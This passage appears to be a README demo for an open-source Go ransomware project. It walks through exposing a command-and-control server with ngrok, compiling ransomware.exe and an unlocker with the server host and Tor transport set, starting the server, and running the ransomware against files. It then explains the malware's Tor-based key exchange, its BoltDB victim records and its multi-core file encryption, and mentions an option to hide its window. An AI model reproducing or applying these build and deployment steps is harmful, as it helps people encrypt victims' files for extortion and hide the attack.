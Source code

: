 ## Step by Step Demo and How it Works

For this demo I'll use two machines, my personal linux machine and a windows 10 VM.

For the sake of simplicity, I have a folder mapped to the VM, so I can compile from my linux and copy to the vm.

In this demo we will use the [Ngrok](https://ngrok.com) tool, this will allow us to expose our server using a domain, but you can use your own domain or ip address if you want. We are also going to enable the Tor transport, so `.onion` domains will work without problems.

First of all lets start our external domain:

```bash
ngrok http 8080
```

This command will give us a url like ` http://2af7161c.ngrok.io`. Keep this command running otherwise the malware won't reach our server.

Let's compile the binaries (remember to replace the domain):

```bash
make -e SERVER_HOST=2af7161c.ngrok.io SERVER_PORT=80 USE_TOR=true
```

The `SERVER_PORT` needs to be `80` in this case, since ngrok redirects `2af7161c.ngrok.io:80` to your local server port `8080`.

After build, a binary called `ransomware.exe`, and `unlocker.exe` along with a folder called `server` will be generated in the bin folder. The execution of `ransomware.exe` and `unlocker.exe` (even if you use a diferent GOOS variable during compilation) is locked to windows machines only.

Enter the server directory from another terminal and start it:

```bash
cd bin/server && ./server --port 8080
```

To make sure that all is working correctly, make a http request to `http://2af7161c.ngrok.io`:

```bash
curl http://2af7161c.ngrok.io
```

If you see a `OK` and some logs in the server output you are ready to go.

Now move the `ransomware.exe` and `unlocker.exe` to the VM along with some dummy files to test the malware. You can take a look at [cmd/common.go](https://github.com/dnerzker/ransomware/blob/master/cmd/common.go) to see some configuration options like file extensions to match, directories to scan, skipped folders, max size to match a file among others.

Then simply run the `ransomware.exe` and see the magic happens :smile:.

The window that you see can be hidden using the `HIDDEN` option described in the compilation section.

After download, extract and start the Tor proxy, the malware waits until the tor bootstrapping is done and then proceed with the key exchange with the server. The client/server handshake takes place and the client payload, encrypted with an RSA-4096 public key must be correctly decrypted on the server. The victim identification and encryption keys are stored in a Golang embedded database called BoltDB (it also persists on disk). When completed we get into the find, match and encrypt phase, up to N-cores workers start to encrypt files matched by the patterns defined. This proccess is really quick and in seconds all of your files will be gone.
